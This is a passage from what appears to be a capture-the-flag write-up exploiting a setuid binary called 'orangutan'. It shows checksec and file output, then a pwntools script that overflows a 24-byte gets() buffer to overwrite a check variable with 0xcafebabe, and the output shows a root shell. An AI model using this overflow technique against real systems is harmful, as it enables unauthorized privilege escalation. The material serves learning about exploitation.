 Also checked for the security measures of the binary.

```
>>> checksec orangutan
	Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```
>>> file orangutan
    orangutan: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=cedba4c198b3199fd59348c775d1c6931dfdcb1c, not stripped
```

### User 10

Finally as i had python3 installed on the system, I downloaded pwntools and finally wrote an exploitation script.

```
>>> pip3 install pwntools

```

The ghidra code revealed the buffer size is 24 bytes and we use a gets function which has no limitation for the data size so, this can be exploited to write the check variable with the extra data overflown into the stack using the buffer variable.

```
#!/usr/bin/python3

from pwn import *

s=process("./orangutan")
payload=""
payload+="\x41"*24
payload+="\xbe\xba\xfe\xca"
print(payload)
s.sendline(payload)
s.interactive()
```

I wrote a script ape.py for this where I wrote 24 'A's into the buffer variable and supply 0xcafebabe in little indian format and then after sending the data we receive an interactive shell

```
>>>./ape.py
[+] Starting local process './orangutan': pid 2794
AAAAAAAAAAAAAAAAAAAAAAAA¾ºþÊ
[*] Switching to interactive mode
hello pwner 
pwnme if u can ;) 
$ whoami
root
$
```

